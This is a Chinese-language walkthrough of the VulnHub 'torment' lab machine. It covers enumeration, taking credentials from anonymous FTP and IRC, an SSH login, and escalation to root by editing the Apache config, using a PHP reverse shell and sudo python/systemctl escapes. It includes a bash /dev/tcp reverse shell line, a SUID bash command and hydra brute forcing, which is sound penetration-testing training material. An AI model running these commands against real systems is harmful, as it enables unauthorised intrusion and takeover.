

# 前言

靶机：`digitalworld.local-torment`，IP地址为`192.168.10.12`

攻击：`kali`，IP地址为`192.168.10.6`

`kali`采用`VMware`虚拟机，靶机选择使用`VMware`打开文件，都选择桥接网络

这里官方给的有两种方式，一是直接使用`virtualbox`加载，另一种是通过`VMware`直接加载，也给出了`iso`镜像文件。

> 文章中涉及的靶机，来源于`vulnhub`官网，想要下载，可自行访问官网下载，或者通过网盘下载

# 主机发现

使用`arp-scan -l`或`netdiscover -r 192.168.10.1/24`扫描

也可以使用`nmap`等工具进行


# 信息收集

## 使用nmap扫描端口

扫描`tcp`端口，并保存于`nmap-tcp`

```shell
nmap -sT 192.168.10.12 --min-rate=1000  -p- -T4 -oA nmap-tcp
```


扫描常见的20个`udp`端口，不过这里的端口明显处于`open`的很少

```shell
nmap -sU 192.168.10.12 --top-ports 20 -T4 -oA nmap-udp
```


把前面扫描出的`tcp`端口，进行处理，只取端口号

```shell
grep open nmap-tcp.nmap | awk -F'/' '{print $1}' | paste -sd ','
ports=21,22,25,80,111,139,143,445,631,2049,6667,6668,6669,6672,6674,36207,38881,48111,53545
```


对特定的端口号进行深入探测

```shell
nmap -sV -O -sC -sT 192.168.10.12 -p $ports -oA detail
```


对特定的端口号进行漏洞检测，其他服务并没有内容，只有631端口进行的`http`枚举

```shell
nmap --script=vuln 192.168.10.12 -p $ports -oA vuln
```


## FTP服务探测

之前使用`nmap`扫描时，确定是可以匿名登录的，那么直接登录测试

```shell
ftp anonymous@192.168.10.12
```


下载所有文件到`kali`中

```shell
ftp> prompt
ftp> mget *
```

但是有三个文件不能下载`group.bak、gshadow.bak、passwd.bak、shadow.bak`，因为权限不够，是以匿名用户登录的，所属者为`ftp`

获取到的文件，都是安装所需的，用不到

尝试以`telnet`登录，测试`site`是否可以复制，但是不行，因为这里采用的是`vsftpd`了

## 80端口网站探测

访问80端口界面，就是默认的`apache2`安装后的界面，查看页面源代码，也没有信息泄露


使用`gobuster`进行目录爆破，当然采用其他工具也行，如`dirb、dirsearch`等

```shell
gobuster dir -u http://192.168.10.12 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.bak,.txt,s,.,.html -b 403-404
```


这里虽然没有扫描完毕，但是这个目录属实是吸引目光，访问查看，只有一段话，页面源代码中也没有信息。好好好，确实痛苦


## nfs服务探测

之前扫描的时候发现有`nfs`服务，并有大量的`rpcbind`，说明这个`nfs`应该在用

使用`nmap`先探测一下

```shell
nmap --script=nfs* 192.168.10.12
```


使用`showmount`再测试

```shell
showmount -e 192.168.10.12
```


两个，那么尝试使用`mount`挂载到`kali`

```shell
mount -t nfs 192.168.10.12:/var/torture ./tor
mount -t nfs 192.168.10.12:/var/public ./pub
```


但是查看后，发现这里面的文件都是空白的，暂时搁置

## smb服务探测

使用`nmap`的脚本进一步检测

```shell
nmap --script=smb* 192.168.10.12
```


虽然有分享，但是使用`smbclient`连接不了，也就是可能匿名方式不支持

再使用`enum4linux`枚举，发现没有任何信息枚举出

暂时搁置

## 631端口网站探测

前面扫描出的631端口的服务是`ipp`，网络打印服务。这个可以百度一下


访问631端口界面


使用`whatweb`探测一下

```shell
whatweb http://192.168.10.12:631
```


使用`gobuster`进行网站目录爆破

```shell
gobuster dir -u http://192.168.10.12:631 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.bak,.txt,s,.,.html -b 403-404
```

这次的文件有点太多了


测试之后，明显不对，这个就不对

在网站中随便点击，发现了一个可能包括用户名的界面`printers`


使用`cewl`爬取

```shell
cewl https://192.168.10.12:631/printers/ -w word -m 3
```

为了后续使用，再生成一个全部小写的文件

```shell
tr '[:upper:]' '[:lower:]' < word > words
```

然后使用`searchsploit`搜索有无对应的漏洞，但是版本对应不上

所以暂且到这里

## FTP再探

这里为什么再探呢，因为到这里，感觉没有可利用的点了， 所以回头看了一下，发现个严重的问题，我在连接FTP时，使用的`ls`命令，并没有展现出隐藏目录，啧

再次连接FTP，使用`ls -al`


最终查看到`.ngircd、.ssh`目录下有文件


查看`id_rsa`，这个不知道谁的私钥


查看`channel`，发现是两串字符


## IRC服务探测

根据前面扫描结果，第一次碰到这个服务，于是搜索了一下

> IRC 即互联网中继聊天（Internet Relay Chat），是一种通过网络进行实时交流的通信协议和相关服务
>
> ngircd 是一种开源的、轻量级且可移植的互联网中继聊天（IRC）服务器软件

那么很可能这个`channels`中的结果对应`bgircd`，毕竟在`ftp`中，是在这个目录下的

首先需要安装个可以通过这个服务连接的软件，这里搜索了一下，最终只有`pidgin`便于安装，并且好用一些

```shell
apt-get install pidgin
```

安装后，输入`pidgin`启动


这里的密码，并不是随便的，可以自己网上搜索，或者按照`ngircd`后，会有配置文件，查看即可获取密码

```shell
cat /etc/ngircd/ngircd.conf
```


密码保存后，点击`buddies`菜单，点击`join a chat`，可能刚开始是无法点击的，可以自己测试，我忘了点击哪里后可以加入了。然后输入频道`channels`，这里测试`#games`，发现无内容


再加入频道`#tormentedprinter`测试，发现可行，并且获取到一个密码`mostmachineshaveasupersecurekeyandalongpassphrase`


根据内容来看，可能是打印机网络界面的登录的密码，不过在尝试爆破后，却没有可用的

```shell
hydra 192.168.10.12 http-get -L words -p mostmachineshaveasupersecurekeyandalongpassphrase /admin/log/access_log -m "Authorization: Basic %u:%p" -s 631
```


## smtp用户枚举

这个需要用到一个工具`smtp-user-enum`，当然，这是`kali`自带的，不过这个枚举需要自己提供字典

这里使用`kali`中`wfuzz`中自带的一个字典

```shell
smtp-user-enum -U /usr/share/wordlists/wfuzz/others/names.txt -t 192.168.10.12
```


枚举出的`patrick`用户与前面在打印机网站中包含的一样，也就是这个`patrick`大概率是系统中的用户

## 信息总结

当前所获取到的有一个`id_rsa`文件，一个`patrick`用户是确定的

一个密码`mostmachineshaveasupersecurekeyandalongpassphrase`

这是经过很多的测试所获取的

# ssh连接

根据前面获取的信息，尝试登录`patrick`

发现直接以密码登录是不行的，使用`id_rsa`文件进行登录

别忘记更改`id_rsa`文件的权限


输入`id_rsa`的密码，也就是`mostmachineshaveasupersecurekeyandalongpassphrase`测试

发现登录成功


# 靶机内信息收集

查看当前目录，并未有信息，那么查看有哪些用户，发现还有一个用户`qiu`

```shell
ls -al /home
cat /etc/passwd | grep /bin/bash
```


`qiu`的家目录，无权访问，那么继续收集信息

查看`ip`及网络连接状态

```shell
ip add
ss -antlp
netstat -ant
```


查看定时任务

```shell
crontab -l
atq
cat /etc/crontab
```


使用`find`寻找具有SUID权限的文件

```shell
find / -perm -4000 -print 2>/dev/null
```


使用`sudo -l`发现有三个


查看内核版本及系统版本

```shell
uname -a/-r
cat /etc/issue
cat /etc/*release
lsb_release
```


查看以`root`身份运行的进程，发现`apache2`服务是以`root`启动的，并且这里大概率是开机启动

```shell
ps -aux | grep root
```


上传`pspy64`到靶机，查看有无内容，监控了一会，并没有内容产生

上传`linpeas.sh`脚本，该脚本在`github`上有项目，可自行下载`https://github.com/peass-ng/PEASS-ng/releases/tag/20250301-c97fb02a`

这里使用这个脚本只是收集信息，虽然上面把信息收集的差不多，但是防止漏掉

确实发现`apache2`的配置文件是可修改的


当然也可以使用命令获取，其他用户具有写权限的文件

```shell
find / -type f -perm /o+w 2>/dev/null | grep -v "/proc"
```


# 分析sudo

这里`sudo -l`给出三个

```shell
/bin/systemctl poweroff		#关闭靶机
/bin/systemctl halt			#关闭
/bin/systemctl reboot		#重启靶机
```

既然`systemctl`可以，尝试能否写一个`.service`文件，测试后，在`/etc/systemd/system`目录下不可编辑文件

结合前面`apache2`是以`root`运行进程的，并且配置文件可以修改

好好好，我不知道怎么具体使用，但是肯定要修改配置文件吧，百度一下

###### **测试一**

尝试修改`/etc/apache2/apache2.conf`文件，首先创建一个脚本，然后在`apache2`配置文件中，设置语句，使得重启服务时，执行这个脚本

```shell
echo 'chmod +s /bin/bash' > /var/www/html/1.sh

echo "ExecStartPre=/var/www/html/1.sh" >> apache2.conf
```

这时候重启靶机，也就是执行`sudo /bin/systemctl reboot`，但是重启后，并没有使得`apache2`服务启动，说明在修改配置文件后，若是需要重启，则可能导致失败。并且这样也会使得目标警觉。所以只能换一种方式


###### 测试二

尝试修改`apache2`的配置文件，添加可以运行`cgi`脚本

```shell
<Directory /var/www/html/cgi-bin>
    Options +ExecCGI
    AddHandler cgi-script .cgi
</Directory>
```

然后在网站根目录创建一个`cgi-bin`目录，在其中创建一个脚本，大概内容与前面一致，或者设置反弹`shell`的命令

```shell
mkdir cgi-bin
echo 'chmod +s /bin/bash' > /var/www/html/cgi-bin/1.cgi
或者
echo 'bash -i >& /dev/tcp/192.168.10.6/9999 0>&1' > /var/www/html/cgi-bin/1.cgi
```

然后通过浏览器访问触发。

啧，不过又失败了

网上搜索了一下，大概就是以`root`身份执行`apache2`时，所做的命令都是`root`执行，但是根据目前的情况来看，这是不被允许的，所以需要更换目标用户。

这里的用户在前面信息收集时获取的，有`qiu`这个用户

> **修改用户和组配置**：在`apache2.conf`文件中，`User`和`Group`指令用于指定 Apache 服务器运行时使用的用户和组。攻击者将其修改为目标用户 “qiu”，当 Apache 服务器重新启动后，所有由 Apache 执行的进程都将以 “qiu” 用户的身份运行。这意味着，原本以其他权限运行的服务进程，现在被赋予了 “qiu” 用户的权限，从而实现了权限的变更


# 提权

## 提权至qiu

修改`apache2`的配置文件

```shell
# These need to be set in /etc/apache2/envvars
User ${APACHE_RUN_USER}		
Group ${APACHE_RUN_GROUP}
#在这个位置添加下面两句
User qiu
Group qiu
```


然后根据前面的直接测试可能不行，那么就通过网站的`webshell`进行测试吧，首先创建一个反弹`shell`，这里可以使用`kali`中自带的一个文件`/usr/share/webshells/php/php-reverse-shell.php`

只需要修改其中的`ip`地址为`kali`的地址即可，反弹的端口可以默认。至于为什么用`php`语言，啧，自己去测试就知道了。

把这个文件下载到靶机内，保存到可以访问的网站目录`/var/www/html`


这时候执行`sudo /bin/systemctl reboot`重启靶机，这样会连带着`apache2`重启，配置文件可能会重载

这时候在`kali`使用`nc`开启一个监听

```shell
nc -lvnp 9999
```

然后使用浏览器访问上传到靶机内的脚本文件


使用`dpkg`等命令测试是否有`python`等

```shell
dpkg -l | grep python
```

发现有`python3`那么尝试获取一个交互式的`shell`

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

## 提权至root

使用`sudo`可以获取到两个文件， 并且不需要密码


若是不知道这两个提权方式，可以访问`https://gtfobins.github.io/`查看用法

```shell
sudo python -c 'import os; os.system("/bin/sh")'
```


另一个`systemctl`提权，这个提权方式很多，可以通过`.service`文件提权，因为这里没有指定特定的服务，只是这个命令，所以是可以扩展使用的



```
sudo systemctl
!sh
```


切换到`/root`目录，查看文件


# 总结

该靶机考察以下几点：

1. 对于网站刚开始访问发现没有任何漏洞的时候，不要就此放弃，可能只是当前没有，不代表在提权时没有用处
2. 对于信息收集，要全面，不要遗漏，这个是真的，遗漏一个就需要很长时间
3. 对于`ngircd`协议，这个可以了解，至少知道哪些软件可以通过这个协议去连接
4. 对于`ssh`服务，其使用证书连接目标时，会有密码需要验证的，这是在生成公私钥的时候设置的
5. 对于`sudo -l`，这个不知道密码的时候，也是可以使用的，因为有的会可以无需密码的
6. 对于靶机内的信息收集，也是要全面，这里就是通过发现`apache2`的配置文件具有写权限，所以配合`sudo`的命令，使得靶机重启，让配置文件可以重载
7. 通过`php`的反弹`shell`可以获取到`apache2`配置文件中的指定用户`qiu`的`shell`

攻击路线：

`FTP`-->`ngircd`-->`pidgin加入频道`-->`SSH登录`-->`apache2配置文件修改`-->`qiu用户的反弹shell`-->`sudo提权至root`


